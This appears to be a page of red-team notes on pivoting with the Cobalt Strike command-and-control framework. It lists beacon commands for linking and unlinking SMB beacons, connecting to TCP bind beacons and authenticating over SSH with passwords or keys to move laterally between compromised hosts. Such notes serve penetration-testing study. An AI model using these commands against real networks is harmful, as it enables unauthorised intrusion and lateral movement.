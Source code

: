 # 08 - Pivoting

Search Tag(s): #command-and-control #post-exploitation #pivot #lateral-movement #cobalt-strike

Link SMB beacon from the windows target.

```
beacon> link <IP
```

Unlink SMB beacon from the windows target. You can re-`link` the disconnected windows target from a different live beacon session.

```
beacon> unlink <IP>
```

Connect TCP bind beacon from a windows target.

```
beacon> connect <IP> [<PORT>]
```

Authenticate SSH credentials from a UNIX target.

```
beacon> ssh <IP> <username> <password>

beacon> ssh-key <IP> <username> /path/to/local/ssh_key
```